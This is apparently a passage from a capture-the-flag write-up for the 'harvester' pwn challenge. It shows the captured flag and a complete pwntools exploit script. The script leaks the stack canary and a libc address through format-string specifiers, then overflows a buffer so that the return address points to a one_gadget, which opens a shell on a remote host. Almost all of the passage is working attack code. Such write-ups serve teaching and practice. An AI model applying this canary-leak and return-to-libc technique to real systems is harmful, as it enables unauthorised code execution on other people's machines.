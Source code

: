 ```bash

This did not work as planned..
$ cat flag.txt
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```

### Exploit (one\_gadget)

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./harvester_no_usleep')

p = remote('46.101.22.121',31051)
libc = ELF('./libc.so.6')
libc.symbols['gadget'] = [0x4f3d5, 0x4f432, 0x10a41c][0]
__libc_start_main_offset = 231

# get canary @11
p.sendlineafter('> ','1')
p.sendlineafter('> ','%11$p')
p.recvuntil('is: ')
canary = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16)
log.info('canary: ' + hex(canary))

# get libc @21
p.sendlineafter('> ','1')
p.sendlineafter('> ','%21$p')
p.recvuntil('is: ')
__libc_start_main = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16) - __libc_start_main_offset
log.info('__libc_start_main: ' + hex(__libc_start_main))
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))

# get 21 pies
p.sendlineafter('> ','2')
p.sendlineafter('> ','y')
p.sendlineafter('> ','-11')

# stare
p.sendlineafter('> ','3')

payload  = b''
payload += 40 * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(libc.sym.gadget)

p.sendafter('> ',payload)
p.interactive()
```
